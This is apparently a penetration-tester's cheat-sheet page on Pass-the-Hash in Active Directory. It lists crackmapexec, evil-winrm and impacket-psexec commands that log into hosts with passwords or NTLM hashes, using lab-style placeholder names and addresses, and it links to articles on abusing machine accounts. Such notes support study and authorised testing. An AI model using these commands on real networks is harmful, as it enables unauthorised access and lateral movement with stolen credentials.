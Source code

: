 # Pass-The-Hash

## with Local Accounts and Domain Accounts

```
crackmapexec smb 192.168.183.0/24 -u "Frank Castle" -H <hash> --local-auth
crackmapexec smb 192.168.183.137 -u "Frank Castle" -p Password1
crackmapexec smb 192.168.183.0/24 -u fcastle -d MARVEL.local -p Password1
evil-winrm -i '10.10.11.129' -u 'Sam.Davies' -p 'Password123'
impacket-psexec domain.local/administrator:MyPasswowrd123@10.10.10.100
impacket-psexec domain.local/administrator@10.10.10.100 -H <hash>
```

## with Machine$ Accounts

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts" %}

{% embed url="https://pentestlab.blog/2022/02/01/machine-accounts/" %}
